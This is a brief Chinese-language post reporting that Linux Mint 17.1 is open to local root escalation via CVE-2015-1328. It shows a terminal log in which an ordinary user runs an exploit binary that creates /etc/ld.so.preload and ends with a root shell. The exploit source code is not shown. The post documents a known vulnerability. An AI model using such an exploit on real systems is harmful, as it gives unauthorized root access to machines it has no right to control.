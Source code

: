 截止到今天，LinuxMint目前比较新的版本17.1可以直接本地普通用户提权，最新的17.2需要在进行远程的时候可以，本地不可以！

```
$ id
uid=1000(mudongliang) gid=1000(mudongliang) 组=1000(mudongliang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare)
$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare),1000(mudongliang)
```

Reference:[CVE-2015-1328](http://cxsecurity.com/issue/WLB-2015060081)